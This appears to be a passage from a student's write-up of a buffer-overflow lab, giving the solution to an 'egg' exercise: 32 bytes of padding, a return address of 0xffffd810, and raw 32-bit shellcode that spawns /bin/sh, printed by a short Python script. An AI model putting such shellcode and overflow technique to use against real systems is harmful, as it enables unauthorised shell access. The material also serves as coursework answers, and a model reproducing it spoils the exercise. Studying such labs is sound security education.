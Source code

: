 > ![](Project_1.assets/image-20240226144812787.png)
> After 20 bytes of garbage (`\x97`), the rip is overwritten with `0xffffd810`, which points to the shellcode directly after the rip.



## Solution of Egg
> [!code]
> The final content of `egg` file could be:
```python
#!/usr/bin/env python3 import sys 
# Configure Python to print text strings like byte strings sys.stdout.reconfigure(encoding='latin1') 

SHELLCODE = \ '\x97\x97\x97\x97\x97\x97\x97\x97\x97\x97\x97\x97\x97\x97\x97\x97' \ '\x97\x97\x97\x97\x97\x97\x97\x97\x97\x97\x97\x97\x97\x97\x97\x97' \ '\x10\xd8\xff\xff' \ '\x6a\x32\x58\xcd\x80\x89\xc3\x89\xc1\x6a' \ '\x47\x58\xcd\x80\x31\xc0\x50\x68\x2d\x69' \ '\x69\x69\x89\xe2\x50\x68\x2b\x6d\x6d\x6d' \ '\x89\xe1\x50\x68\x2f\x2f\x73\x68\x68\x2f' \ '\x62\x69\x6e\x89\xe3\x50\x52\x51\x53\x89' \ '\xe1\x31\xd2\xb0\x0b\xcd\x80' 

print(SHELLCODE)
```




# Q2 Buffer Overflow Attack II - Easy
> [!overview]
> ![](Project_1.assets/image-20240226145038735.png)
